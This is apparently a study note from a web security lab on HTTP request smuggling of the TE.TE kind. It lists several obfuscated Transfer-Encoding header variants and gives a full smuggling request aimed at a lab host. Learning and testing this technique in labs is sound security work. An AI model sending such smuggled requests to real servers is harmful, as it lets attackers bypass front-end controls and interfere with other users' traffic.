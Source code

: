 ## TE.TE vulnerabilities (obfuscating TE header)

The front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

Some obfuscation examples:
```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

To uncover a TE.TE vulnerability, it is necessary to find some variation of the `Transfer-Encoding` header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

```http
POST / HTTP/1.1
Host: 0a6a008e033bed808147e98200020068.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-length: 4
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: foo

a1
GPOST / HTTP/1.1
Host: 0a6a008e033bed808147e98200020068.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 15

foo=bar
0


```
